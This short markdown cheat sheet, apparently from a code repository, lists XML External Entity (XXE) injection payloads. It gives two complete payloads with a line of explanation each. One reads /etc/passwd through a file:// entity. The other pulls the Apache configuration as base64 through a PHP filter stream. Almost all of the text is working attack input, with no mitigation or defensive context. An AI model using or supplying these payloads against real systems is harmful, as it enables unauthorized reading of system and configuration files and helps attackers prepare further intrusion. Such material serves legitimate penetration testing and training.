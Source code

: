 # XML External Entity

## Requesting /etc/passwd from Filesystem
Providing the XML below would return the contents from /etc/passwd between the data XML tags.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ELEMENT data ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

## Requesting Apache2 Configuration Using PHP I/O Filter Stream
Providing the XML below would return the contents of /etc/apache2/apache2.conf encoded as base64 between the data XML tags.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ELEMENT data ANY>
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/apache2/apache2.conf">
]>
<data>&xxe;</data>
```